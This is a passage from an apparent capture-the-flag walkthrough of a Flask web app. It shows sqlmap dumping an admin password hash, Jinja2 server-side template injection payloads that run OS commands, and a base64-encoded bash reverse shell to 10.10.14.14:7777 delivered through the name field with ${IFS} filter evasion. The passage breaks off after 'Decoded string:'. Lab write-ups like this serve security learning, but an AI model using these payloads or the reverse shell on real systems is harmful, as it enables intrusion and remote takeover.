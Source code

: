I am now able to use my SQLmap command:
`sqlmap -r ggs.req --dbs --dump --batch`

It took it's time but it confirmed that it was injectable and it also dumped a password for admin user.
It found a **db** called `main` and found a **table** called `user`. Here it SQLmap was able to retrieve **admin's** password.

Using **https://crackstation.net/** I was able to crack the hashed password.

# Flask login 

Going back to the flask login I logged in with **admin** and the password I cracked.

Navigating to the settings page we notice that we can edit our user details. As this is a Python
Flask application this would be a good time to test the form for Server Side Template Injection.
After changing my username and adding a date and number, I noticed that sent a request; with this request I sent to repeater and tried insert **{{7*7}}** into the **name** value, we see that our username has been changed to 49
and our SSTI payload was executed in burp.

To gain RCE with Jinja (template engine for Flask):
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
`

In burp again I was able to confirm that it did work.
Changing the commands around I was easily able to find the user flag with, `find / user.txt`.
Then simply, `cat /home/theuser/user.txt`

# Root 

Now to find **root**. When I first `whoami` it showed that I was already root. Tried the same find commmand as above but as I thought no luck.

With `ls` again I was able to find this in burp:
`                           <h4 class="h3">
                                Dockerfile
project
requirements.txt


                            </h4>`

To make life easier I set up a shell:
`echo -ne 'bash -i >& /dev/tcp/10.10.14.14/7777 0>&1' | base64`

* `echo -ne '...'` → prints the reverse shell command without adding a newline (`-n`) and interprets escape characters (`-e`).
* `bash -i >& /dev/tcp/10.10.14.14/7777 0>&1` → opens an **interactive bash shell** and sends input/output to a remote IP (`10.10.14.14`) on port `7777` via TCP.
* `| base64` → encodes that command in **Base64**.

Then after I constructed a basic SSTI payload to deliver on site through the **name** field:
```{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC83Nzc3IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}```

**What it does:**

* `{{ ... }}` → executes Python code in a Jinja2 template context.
* `config.__class__.__init__.__globals__['os']` → accesses the `os` module via Python object traversal.
* `popen()` → executes a shell command and captures the output.
* `echo${IFS}...` → `echo` the base64-encoded reverse shell payload, using `${IFS}` (Internal Field Separator) to replace spaces — a technique to bypass certain input restrictions.
* `| base64${IFS}-d | bash` → decodes the base64 string and pipes it to bash to execute.

**Decoded string:**
`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC83Nzc3IDA+JjE=` →
```